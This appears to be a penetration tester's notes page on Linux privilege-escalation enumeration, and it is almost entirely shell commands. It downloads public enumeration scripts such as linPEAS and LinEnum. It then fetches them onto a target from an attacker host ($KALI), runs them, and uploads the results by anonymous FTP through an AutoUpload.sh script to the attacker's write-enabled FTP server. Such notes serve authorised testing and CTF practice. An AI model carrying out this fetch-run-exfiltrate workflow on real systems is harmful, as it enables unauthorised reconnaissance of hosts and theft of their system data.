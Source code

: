 linPEAS.sh
LineEnum.sh
linux-exploit-suggester.sh 
linuxprivchecker.py 


#### Download to Kali

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh && wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py && wget https://raw.githubusercontent.com/etc5had0w/suider/main/suider.sh && wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py

```

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.sh
```

#### AutoUpload.sh - ==REMEMBER TO CHANGE $KALI TO IP!==
```
#!/bin/sh
HOST='$KALI'
USER='anonymous'
PASSWD='anonymous'


ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
put LinEnum.txt*
put linpeas.txt
put linux-exploit-suggester.txt
put linuxprivchecker.txt
put suider.sh
put suid3num.txt
quit
END_SCRIPT
exit 0
```

![[Python#Server]]

#### Transfer to target - bash - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - target
mkdir /tmp/Tools && cd /tmp/Tools && wget http://$KALI:80/linpeas.sh && wget http://$KALI:80/LinEnum.sh && wget http://$KALI:80/linux-exploit-suggester.sh && wget http://$KALI:80/linuxprivchecker.py && wget http://$KALI:80/AutoUpload.sh && wget http://$KALI:80/suider.sh && wget http://$KALI:80/suid3num.py && chmod +x linpeas.sh && chmod +x LinEnum.sh && chmod +x linux-exploit-suggester.sh && chmod +x AutoUpload.sh && chmod +x suider.sh && chmod +x suid3num.py
```

#### Execute tools
```bash - target
./linpeas.sh -a > linpeas.txt & ./LinEnum.sh -t -r LinEnum.txt & ./linux-exploit-suggester.sh > linux-exploit-suggester.txt & python linuxprivchecker.py -w -o linuxprivchecker.txt & ./suider.sh > suider.txt & python suid3num.py > suid3num.txt
```

#### Start FTP server and upload results
```bash - kali
python -m pyftpdlib -p 21 --write
```

```bash - target
./AutoUpload.sh
```

[[3._Automated Tools]]

==Remember you can use [[gcc]] to locally compile if needed!==